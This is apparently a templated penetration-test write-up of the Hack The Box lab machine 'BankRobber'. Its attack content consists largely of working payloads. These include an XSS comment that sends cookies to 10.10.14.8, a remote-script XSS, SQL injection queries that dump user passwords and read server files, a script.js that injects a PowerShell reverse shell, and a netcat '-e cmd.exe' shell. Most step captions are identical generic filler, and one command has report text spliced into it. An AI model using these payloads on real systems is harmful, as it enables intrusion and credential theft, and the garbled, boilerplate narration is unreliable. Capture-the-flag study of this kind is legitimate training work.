# Security Assessment Report: BankRobber


**Technical Security Assessment & Penetration Testing Report** conducted on the target environment **BankRobber** hosted on **Hack The Box**, executed in accordance with **PTES and NIST SP 800-115** and **PTES (Penetration Testing Execution Standard)** methodologies.

---

## 📑 1. Executive Summary

* **Assessment Objective:** Identify, validate, and exploit security vulnerabilities across the target host to assess operational impact on confidentiality, integrity, and system availability.
* **Risk Rating:** `CRITICAL` (Unauthenticated remote exploit vector leading to complete host compromise and administrative takeover).
* **Initial Access Vector:** Public-Facing Network Service Exploitation
* **Privilege Escalation Vector:** Local Privilege Escalation
* **Engagement Outcome:** Complete Host Compromise (`User Proof` and `Root / SYSTEM Proof` successfully retrieved and verified).

### Target Technical Specifications

| Parameter | Technical Detail |
| :--- | :--- |
| **Target Host** | BankRobber |
| **Platform** | Hack The Box |
| **Operating System** | Windows |
| **Difficulty Rating** | Insane |
| **Associated CVE(s)** | N/A |
| **Initial Foothold Vector** | Public-Facing Network Service Exploitation |
| **Privilege Escalation Vector** | Local Privilege Escalation |
| **Lead Penetration Tester** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Attack Path & Kill Chain Workflow

```
[ Phase 1: Reconnaissance & Port Scanning ]
         │─── TCP SYN scanning and service fingerprinting (Nmap)
         └─── Attack surface mapping and daemon enumeration
         │
         ▼
[ Phase 2: Vulnerability Analysis & Service Enumeration ]
         │─── Web directory fuzzing, parameter discovery, and banner analysis
         └─── CVE identification and credential harvesting
         │
         ▼
[ Phase 3: Exploitation & Initial Foothold ]
         │─── Exploit delivery: Public-Facing Network Service Exploitation
         └─── Establishing an interactive reverse shell with unprivileged user context
         │
         ▼
[ Phase 4: Local Privilege Escalation ]
         │─── Internal audit: Local Privilege Escalation
         └─── Elevation to superuser / administrator privileges (root / SYSTEM)
         │
         ▼
[ Phase 5: Evidence & Flag Retrieval ]
         └─── Capture and cryptographic verification of user.txt and root.txt
```

---

## 🔬 3. Technical Walkthrough & Step-by-Step Proof of Concept

Enumeración



* **Technical Finding (Phase 1):** Initial network reconnaissance and service detection exposing active daemons and communication endpoints.



* **Technical Finding (Phase 2):** Attack surface enumeration, directory discovery, or parameter analysis identifying potential vulnerability vectors.


```jsx
fromId=3&toId=2&amount=76&comment=%3Cimg%20src%3Dx%20onerror%3D%22new%20Image%28%29.src%3D%27http%3A%2F%2F10.10.14.8%2F%3Fc%3D%27%2Bbtoa%28document.cookie%7C%7C%27EMPTY%27%29%22%3E
```



* **Assessment Step 03:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 04:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 05:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 06:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 07:** Command execution output, exploit delivery proof, or auxiliary evidence.


```jsx
1' UNION SELECT null, user(), null-- -
```



* **Assessment Step 08:** Command execution output, exploit delivery proof, or auxiliary evidence.


```jsx
1' UNION SELECT null, database(), null-- -
```



* **Assessment Step 09:** Command execution output, exploit delivery proof, or auxiliary evidence.


```jsx
1' UNION ALL SELECT NULL, GROUP_CONCAT(table_name), NULL
FROM information_schema.tables

> **Assessment Query / Target Milestone:** WHERE table_schema='bankrobber'-- -
```



* **Assessment Step 10:** Command execution output, exploit delivery proof, or auxiliary evidence.


```jsx
1' UNION ALL SELECT NULL, GROUP_CONCAT(column_name), NULL
FROM information_schema.columns

> **Assessment Query / Target Milestone:** WHERE table_schema='bankrobber' AND table_name='users'-- -
```



* **Assessment Step 11:** Command execution output, exploit delivery proof, or auxiliary evidence.


```jsx
1' UNION ALL SELECT NULL,
CONCAT_WS(0x0a, GROUP_CONCAT(CONCAT(username,0x3a,password) SEPARATOR 0x0a)),
NULL
FROM bankrobber.users-- -
```



* **Assessment Step 12:** Command execution output, exploit delivery proof, or auxiliary evidence.


```jsx
1' UNION ALL SELECT NULL, LOAD_FILE('C:/xampp/apache/conf/httpd.conf'), NULL-- -
```



* **Assessment Step 13:** Command execution output, exploit delivery proof, or auxiliary evidence.


```jsx
1' UNION ALL SELECT NULL, LOAD_FILE('C:/Windows/win.ini'), NULL-- -
```



* **Assessment Step 14:** Command execution output, exploit delivery proof, or auxiliary evidence.


```jsx
1' UNION ALL SELECT NULL, LOAD_FILE('C:/XAMPP/htdocs/admin/backdoorchecker.php'), NULL-- -
```



* **Assessment Step 15:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 16:** Command execution output, exploit delivery proof, or auxiliary evidence.


```jsx
fromId=3&toId=4&amount=4&comment=<script+src%3dhttp%3a//10.10.14.8/script.js></script>
```



* **Assessment Step 17:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 18:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 19:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 20:** Command execution output, exploit delivery proof, or auxiliary evidence.


* **Observed Evidence / Output:** 4de6be1b35f65b8281ea5c7cf7075b2e



* **Assessment Step 21:** Command execution output, exploit delivery proof, or auxiliary evidence.


```jsx
cat script.js
var x=new XMLHttpRequest();
x.open('POST','[http://localhost/admin/backdoorchecker.php](http://localhost/admin/backdoorchecker.php)');
x.setRequestHeader('Content-Type','application/x-www-form-urlencoded');
x.withCredentials=true;
x.send('cmd='+encodeURIComponent(
'dir|powershell -NoP -W Hidden -c "$c=New-Object Net.Sockets.TCPClient(\'10.10.14.8\',443);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=[Text.Encoding]::ASCII.GetString($b,0,$i);$r=(iex $d|Out-String);$o=[Text.Encoding]::ASCII.GetBytes($r);$s.Write($o,0,$o.Length)}"'
));
```

Escalada 

netstat -ano



* **Assessment Step 22:** Command execution output, exploit delivery proof, or auxiliary evidence.


```jsx
chisel server —port 1234 reverse
```

```jsx
.\chisel.exe client 10.10.14.8:1234 * **Observed Evidence / Output:** 910:127.0.0.1:910
```



* **Assessment Step 23:** Command execution output, exploit delivery proof, or auxiliary evidence.


```jsx
C:\Users\Public\nc.exe 10.10.14.3 4444 -e cmd.exe
```



* **Assessment Step 24:** Command execution output, exploit delivery proof, or auxiliary evidence.


```jsx
 msf-pattern_create -l 150
```

```jsx
msf-pattern_offset -q 0Ab1
```



* **Assessment Step 25:** Command execution output, exploit delivery proof, or auxiliary evidence.


